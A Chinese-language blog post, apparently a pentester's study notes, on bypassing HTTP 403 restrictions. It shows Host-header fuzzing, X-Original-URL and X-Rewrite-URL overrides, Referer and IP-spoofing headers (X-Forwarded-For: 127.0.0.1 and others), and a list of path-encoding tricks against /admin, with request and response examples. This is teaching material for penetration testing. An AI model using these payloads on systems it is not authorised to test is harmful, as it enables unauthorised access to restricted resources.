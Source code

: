 ```yaml
---
title: 渗透测试如何利用403
comments: true
date: 2022-02-08 11:19:26
tags: ["渗透测试", "403"]
categories:
- 渗透测试
cover: https://image.geoer.cn/403.png
top_img:
description:
---
```




今天面试问到这个问题了，我大概是知道怎么利用，就是说不太出来...哎还是用文字总结一下吧！



## 1.端口利用

扫描主机端口，找其它开放web服务的端口，访问其端口，挑软柿子。





## 2.修改HOST

**Host在请求头中的作用：**在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。



修改客户端请求头中的 Host 可以通过**修改 Host 值**修改为子域名或者ip来绕过来进行绕过二级域名；



**首先**对该目标域名进行子域名收集，整理好子域名资产（host字段同样支持IP地址）。先Fuzz测试跑一遍收集到的子域名，这里使用的是Burp的Intruder功能。若看到一个服务端返回200的状态码，即表面成功找到一个在HOST白名单中的子域名。我们利用firefox插件来修改HOST值，成功绕过访问限制。







## 3.覆盖请求 URL

尝试使用 **X-Original-URL** 和 X-Rewrite-URL 标头绕过 Web 服务器的限制。

通过支持 X-Original-URL 和 X-Rewrite-URL 标头，用户可以使用 X-Original-URL 或 X-Rewrite-URL HTTP 请求标头**覆盖请求 URL 中的路径，尝试绕过对更高级别的缓存和 Web 服务器的限制**

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
X-Original-URL: /auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET / HTTP/1.1
X-Rewrite-URL: /auth/login
Response
HTTP/1.1 200 OK

```





## 4.Referer 标头绕过

尝试使用 Referer 标头绕过 Web 服务器的限制。

介绍：Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。

```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

```





## 5.代理 IP

一般开发者会通过 Nginx 代理识别访问端 IP 限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host 等标头绕过 Web 服务器的限制。

```bash
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1

```

如：

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK

```





## 6.扩展名绕过

基于扩展名，用于绕过 403 受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200

```



## 7.扫描的时候

遇到 403 了，上目录扫描工具，扫目录，扫文件（<font color=red>记住，扫描的时候要打开探测403，因为有些网站的目录没有权限访问会显示403，但是在这个目录下面的文件，我们或许能扫描到并访问</font> ）










